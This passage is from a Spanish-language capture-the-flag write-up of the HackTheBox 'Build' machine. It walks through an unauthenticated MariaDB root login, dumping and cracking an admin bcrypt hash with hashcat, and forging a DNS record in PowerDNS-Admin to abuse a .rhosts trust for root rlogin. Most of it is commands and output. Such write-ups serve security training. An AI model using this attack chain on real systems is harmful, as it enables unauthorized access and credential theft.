2026/03/16 02:10:51 client: tun: conn#1: Open [1/1]
~~~
Estableciendo asi la conexión, claramente tambien asegurarse de configurar el `/etc/proxychains4.conf` para que realice la conexion.

Con todo configurado ahora se puede volver a enumerar cada servicio.
Primero intentando ingresar por ssh a todos los hosts esto no fue posible.
Posteriormente se vio el contenido de las paginas web.

Ambas piden credenciales de autenticacion, probando las unicas credenciales que se lograron obtener, no funciona para realizar la autenticacion.
### DB
Finalmente se enumera la base de datos, para esto se probaron las credenciales obtenidas pero no funcionaron, realizando mas pruebas se probo la conexion como `root` y esta si funciono.
~~~bash
┌──(kali㉿kali)-[~/htb/build/exploits]
└─$ proxychains -q mysql -u root -h 172.18.0.4 --skip-ssl
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 118
Server version: 11.3.2-MariaDB-1:11.3.2+maria~ubu2204 mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
~~~
Con esta suerte se logra enumerar toda la base de datos y encontrar una credencial.
~~~bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| powerdnsadmin      |
| sys                |
+--------------------+
5 rows in set (0.927 sec)

MariaDB [(none)]> use powerdnsadmin
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [powerdnsadmin]> show tables;
+-------------------------+
| Tables_in_powerdnsadmin |
+-------------------------+
| account                 |
| account_user            |
| alembic_version         |
| apikey                  |
| apikey_account          |
| comments                |
| cryptokeys              |
| domain                  |
| domain_apikey           |
| domain_setting          |
| domain_template         |
| domain_template_record  |
| domain_user             |
| domainmetadata          |
| domains                 |
| history                 |
| records                 |
| role                    |
| sessions                |
| setting                 |
| supermasters            |
| tsigkeys                |
| user                    |
+-------------------------+
23 rows in set (0.138 sec)

MariaDB [powerdnsadmin]> select * from user;
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+
| id | username | password                                                     | firstname | lastname | email          | otp_secret | role_id | confirmed |
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+
|  1 | admin    | $2b$12$s1hK0o7YNkJGfu5poWx.0u1WLqKQIgJOXWjjXz7Ze3Uw5Sc2.hsEq | admin     | admin    | admin@build.vl | NULL       |       1 |         0 |
+----+----------+--------------------------------------------------------------+-----------+----------+----------------+------------+---------+-----------+
1 row in set (0.138 sec)
~~~
Esta contraseña esta encriptada con bcrypt, asi que se procede a descifrarla con hashcat.
~~~bash
┌──(kali㉿kali)-[~/htb/build]
└─$ sudo hashcat -m 3200 hash_admin /usr/share/wordlists/rockyou.txt --force
[sudo] password for kali: 
hashcat (v7.1.2) starting

<.....SNIP.....>

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$2b$12$s1hK0o7YNkJGfu5poWx.0u1WLqKQIgJOXWjjXz7Ze3Uw5Sc2.hsEq:winston
                                                          
Session..........: hashcat
<----SNIP.....>
~~~
Por buena suerte esta contraseña si es descifrable.
Como siempre lo primero es probar la contraseña por ssh, pero no funciona.
Posteriormente se prueba en el servicio web de `172.18.0.6`, esto porque la estructura de la tabla de la DB es parecida a la web, con datos como `OTP token`.
Al colocar las credenciales esto si inicia sesion.

Tal parece que este servicio administra los dominios con registros DNS del dominio.
Al entrar a `build.vl` se puede ver varios subdominios registrados a cada IP de contenedor, esto es una via muy atractiva, porque si bien recordamos en el archivo `.rhosts` se encuentran subdominios privilegiados, se podria asignar uno de esos dominios a mi IP de kali para poder ingresar al servidor como `root`.

~~~bash
root@5ac6c7d6fb8e:~/.ssh# cat ../.rhosts 
admin.build.vl +
intern.build.vl +
~~~

Se ve el subdominio `internal` adjunta a una IP, preferiria no tocar lo que ya esta creado, asi que se procede a agregar el subdominio `admin` a la IP de kali.

Con esto modificado, en teoria la maquina kali tendria permisos para conectarse por `rlogin` (513) al servidor sin necesidad de agregar contraseñas.
~~~bash
┌──(kali㉿kali)-[~/htb/build]
└─$ rlogin 10.129.234.169 -l root
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-144-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon Mar 16 02:58:36 AM UTC 2026

  System load:  0.09              Processes:             189
  Usage of /:   72.9% of 9.75GB   Users logged in:       0
  Memory usage: 34%               IPv4 address for eth0: 10.129.234.169
  Swap usage:   0%

Expanded Security Maintenance for Applications is not enabled.

1 update can be applied immediately.
1 of these updates is a standard security update.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

root@build:~# whoami
root
~~~

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con acceso como root al servidor, ya se puede leer la root flag y realizar todo lo que se quisiera para lograr persistencia.
~~~bash
root@build:~# id
uid=0(root) gid=0(root) groups=0(root)
root@build:~# ls
int  root.txt  scripts  snap
root@build:~# cd 
root@build:~# cat root.txt
<Encuentre su propia root flag>
~~~
De esa forma, se logro obtener la root flag.
🎉 Sistema completamente comprometido - Root obtenido
